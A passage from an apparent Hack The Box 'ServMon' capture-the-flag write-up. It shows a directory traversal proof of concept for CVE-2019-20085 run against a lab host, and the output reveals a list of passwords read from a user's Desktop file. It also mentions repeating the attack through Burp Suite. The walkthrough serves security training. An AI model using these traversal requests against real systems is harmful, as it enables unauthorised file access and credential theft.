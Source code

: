 ```bash
0hmsec@kali:-$ chmod +x cve-2019-20085-poc.sh
0hmsec@kali:-$ ./cve-2019-20085-poc.sh -u http://10.10.10.184/ -f Users/Nathan/Desktop/Passwords.txt

Target URL: http://10.10.10.184/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
Directory Traversal Succeeded!
Reading the file: Users/Nathan/Desktop/Passwords.txt.

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

As you can see, we have read the file `Users/Nathan/Desktop/Passwords.txt`, which was referenced in one of the files, "Confidential.txt" which we found on the FTP share. "Passwords.txt" seems to be a bunch of passwords.

##### Exploit-2: Burp Suite

I will show you one more way of achieving Directory traversal. It is through modifying and sending the GET request in Burp Suite.

![Burp Suite](/assets/img/posts/htb-servmon/ss3.png)
_Burp Suite_

### 8443

If we look at the nmap results, we can see that there is a NSClient++ instance running on this port 8443. Before we continue with the found passwords, let's enumerate this port as well.

